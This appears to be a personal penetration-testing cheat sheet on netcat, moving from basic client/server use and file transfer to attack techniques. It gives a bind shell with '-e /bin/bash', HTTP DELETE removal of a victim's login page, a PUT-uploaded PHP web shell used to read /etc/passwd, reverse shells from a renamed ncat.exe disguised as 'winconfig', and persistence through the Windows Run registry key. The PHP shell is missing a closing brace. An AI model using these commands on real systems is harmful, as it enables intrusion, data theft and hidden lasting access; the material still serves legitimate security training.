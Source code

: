 ```yaml
---
title: netcat
author: amandaguglieri
draft: false
TableOfContents: true
tag: http
---
```



## Installation

Preinstalled in kali. Netcat (often abbreviated to nc) is a computer networking utility for reading from and writing to network connections using TCP or UDP.

For windows: [https://nmap.org/ncat/](https://nmap.org/ncat/).

For linux: 

```bash
sudo apt install ncat
```


## Usage

It’s used for HTTP

```bash
nc <IP> <port> -flags
```

### Fingerprinting with netcat

```bash
nc  <IP> 80
HEAD / HTTP/1.0     
# And hit RETURN twice
```

## Netcat commands


### As a server

```bash
nc -lvp 8888
#-p: specify a port
#-l: to listening
#-v: verbosity
#-u: enforces udp connection
#-e: executes the given command
```

### As a client

```bash
nc -v <ip> <port>
```


## Transfer data

On the server side:

```bash
#data will be printed on screen
nc -lvp <port>  
```

On the client side:

```bash
echo “hello” | nc -v <ip> <port>
```



## Transfer data and save it in a file

On the server side: 

```bash
# Data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side:

```bash
echo “hello” | nc -v <ip> <port>
```

## Transfer file and save it 

On the server side: 

```bash
# Received data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side:

```bash
cat tobesentfiel.txt | nc -v <ip> <port>
```

## Netcat shell

On the server side:

```bash
nc -lvp <port> -e /bin/bash
```

On the client side:

```bash
nc -v <ip> <port>
```


## Some enumeration techniques for HTTP verbs

```bash
# Send a OPTIONS message with netcat
nc victim.target 80
OPTIONS / HTTP/1.0

```



## Some exploitation techniques for HTTP verbs


### DELETE attack


```bash
# General syntax for removing a resource from server using netcat
nc victim.site 80
DELETE /path/to/resource.txt HTTP/1.0


# Example for removing the login page of a site
nc victim.site 80
DELETE /login.php HTTP/1.0

```

### PUT attack: getting a shell

```bash
# Save for instance a php basic shell in a file (shell.php):

<?php 
if (isset($_GET[‘cmd’]))
{
	$cmd = $_GET[‘cmd’];
	echo ‘<pre>’;
	$result = shell_exec($cmd);
	echo $result;
	echo ‘</pre>’;
?>


# Count the size of the file
wc -m shell.php

# Send with netcat the HTTP verb message
nc victim.site 80
PUT /shell.php HTTP/1.0
Conten-type: text/html
Content-length: [number you got with wc -m payload]
 

# Run the exploit by typing in the browser:
http://victim.site/shell.php?cmd=cat+/etc/passwd
```

## Backdoors

### The attacker initiates the connection

**In the victim machine**: If windows, get the ncat.exe executable file, rename it to something else such as winconfig and we write in command line:

```
wincofig -l -p <port> -e cmd.exe
# Example: wincofig -l -p 5555 -e cmd.exe
```

**In the attacker machine**:

```
ncat <victim IP address> <port specified>
# Example: ncat 192.168.0.40 5555
```

### The victim initiates the connection

Great to avoid firewalls!!!

**In the victim machine**: If windows, get the ncat.exe executable file, rename it to something else such as winconfig and we write in command line:

```
winconfig -e cmd.exe <attacker IP> <port>
# Example: winconfig -e cmd.exe 192.168.1.40 5555
```
**In the attacker machine**:

```
ncat -l -p <port> -v
# Example: ncat -l -p 5555 -v
```

### Creating a registry in regedit

- In regedit, go to Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
- Right-Button > New > String value
- We name it exactly like the ncat.exe file (if we renamed it to winconfig, then we call this registry winconfig>
- We edit the registry and we add the path to the executable file and some commands  in the Value data:

```
“C:\Windows/System32\winconfig.exe <attacker IP> <port> -e cmd.exe”
# For instance: “C:\Windows/System32\winconfig.exe 192.168.1.50 5540 -e cmd.exe”
```

